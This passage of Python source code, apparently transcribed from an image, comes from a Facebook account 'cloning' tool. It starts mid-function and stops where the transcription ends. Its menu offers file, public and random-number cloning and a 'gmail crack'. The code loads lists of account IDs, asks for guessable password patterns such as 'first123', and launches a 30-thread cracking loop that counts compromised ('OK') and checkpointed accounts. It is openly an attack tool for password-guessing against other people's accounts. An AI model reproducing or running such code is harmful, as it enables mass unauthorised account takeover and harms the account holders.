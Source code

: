                 print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python SK.py')
        except requests.exceptions.ConnectionError:
                exit(f' No internet connection')
        except (KeyError,IOError):
                print(f' No friends for {userr}')
                time.sleep(3)
                public()
def menu():
        try:
                clear()
        #       chk()
                x = ("sex")
                if x == ("sex"):
                        print(' [1] File cloning\n [2] Create ids file\n [3] Public cloning\n [4] Random number cloning\n [5] Random gmail crack\n [6] Follow My Facebook Profile\n [0] Exit menu')
                        linex()
                        xd=input(' Choose an option: ')
                        if xd in ['1','01']:
                                clear()
                                print(' Put file example:  /sdcard/File.txt  etc..')
                                linex()
                                file = input(' Put file path\033[1;37m: ')
                                try:
                                        fo = open(file,'r').read().splitlines()
                                except FileNotFoundError:
                                        print(' File location not found ')
                                        time.sleep(1)
                                        menu()
                                clear()
                                print(' All method working try 1 by 1 ')
                                linex()
                                print(' [1] Method 1 (for new ids) \n [2] Method 2 (for old ids)\n [3] Method 3 (for old ids)')
                                linex()
                                mthd=input(' Choose: ')
                                linex()
                                plist = []
                                try:
                                        ps_limit = int(input(' How many passwords do you want to add ? '))
                                except:
                                        ps_limit =1
                                linex()
                                print('\033[1;32m exp: first last,firtslast,first123')
                                linex()
                                for i in range(ps_limit):
                                        plist.append(input(f' Put password {i+1}: '))
                                linex()
                                print(' Do you went show cp account? (y/n): ')
                                linex()
                                cx=input(' Choose: ')
                                if cx in ['y','Y','yes','Yes','1']:
                                        pcp.append('y')
                                else:
                                        pcp.append('n')
                                with tred(max_workers=30) as crack_submit:
                                        clear()
                                        total_ids = str(len(fo))